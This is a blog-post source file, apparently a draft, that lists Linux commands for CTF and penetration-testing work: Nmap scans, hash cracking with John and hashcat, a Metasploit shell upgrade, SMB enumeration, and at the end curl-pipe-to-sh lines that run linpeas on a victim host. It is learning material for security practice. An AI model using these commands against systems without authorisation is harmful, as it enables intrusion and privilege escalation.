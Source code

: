 ```yaml
---
title: Linux Commands for Hacking and Security
date: 2023-08-08
author: Abhinav Kumar
image: {
  src: "/images/bash.jpeg",
  alt: "Bash for Hackers",
}
description: Linux commands and shortcuts very often used by Hackers, Security professionals, CTF Players.
draft: true
category: Hacking 101
---
```


Linux commands that are often used by hackers, security professional and CTF players. We will avoid any payloads or oneliner exploits ( will cover in different page sometime).

### Add Target to hosts file

```bash
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ echo '10.10.196.20 blue.thm' | sudo tee -a /etc/hosts
[sudo] password for abhinav: 
10.10.196.20 blue.thm
```

### Nmap

```bash
sudo nmap -sC -sV -p- -T5 -Pn targethost
sudo nmap -sU -sV -p- -T5 -Pn targethost
```

Start Metasploit with database



Cracking hash with John

```bash
──(abhinav㉿ETHICALHACKX)-[~]
└─$ john hash --format=NT --wordlist=/usr/share/wordlists/rockyou.txt 
```

Cracking hash with hashcat

Windows NTLM Hash
```bash
hashcat -m 1000 -a 0 hash /usr/share/wordlists/rockyou.txt.gz
```

Metasploit Shell Upgrade to Meterpreter
sessions -u 3
sessions -u -1
use post/multi/manage/shell_to_meterpreter
run session=-1


## Extract Files

Gz Files

gunzip archive.gz

```bash
tar –xvzf archive.tar.gz
```

## SSH Connection 

ssh username@host -oHostKeyAlgorithms=+ssh-dss


## Text Filter

grep -i ]- inlcude
grep -v ]- exclude

## SMB Enumeration

nmap

```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.232.56
```

```bash
smbclient //IP/directory
```

mount NFS

make directory locally and mount it
```bash
mkdir /mnt/sampleDIR
sudo mount IP:/folder /mnt/sampleDIR
```
## netcat

get version via banner
nc IP port

## Linpeas

# From github
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh

Python Simple HTTP Server


python3 -m http.server 7777
curl 10.10.10.10/linpeas.sh | sh #Victim